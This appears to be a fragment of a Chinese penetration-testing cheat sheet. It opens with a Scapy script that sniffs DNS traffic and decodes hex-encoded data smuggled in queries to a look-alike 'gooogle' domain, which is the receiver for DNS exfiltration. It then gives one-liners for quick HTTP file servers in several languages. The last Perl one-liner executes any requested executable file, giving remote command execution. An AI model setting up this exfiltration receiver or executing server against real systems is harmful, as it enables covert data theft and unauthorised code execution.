 ```python
try:
    from scapy.all import *
except:
    print("Scapy not found, please install scapy: pip install scapy")

def process_packet(pkt):
    if pkt.haslayer(DNS):
        domain = pkt[DNS][DNSQR].qname.decode('utf-8')
        root_domain = domain.split('.')[1]
        if root_domain.startswith('gooogle'):
            print(f'{bytearray.fromhex(domain[:-13]).decode("utf-8")}', flush=True, end='')

sniff(iface="eth0", prn=process_packet)
```

```
python3 dns_reciver.py
```

...

### 搭建 HTTP server

python2

```
python -m SimpleHTTPServer 1337
```

python3

```
python -m http.server 1337
```

PHP 5.4+

```
php -S 0.0.0.0:1337
```

ruby

```
ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 1337, :DocumentRoot => Dir.pwd).start'
```

```
ruby -run -e httpd . -p 1337
```

Perl

```
perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=>1337); $s->mount("/"=>{path=>"."}); $s->start'
```

```
perl -MIO::All -e 'io(":8080")->fork->accept->(sub { $_[0] < io(-x $1 +? "./$1 |" : $1) if /^GET \/(.*) / })'
```
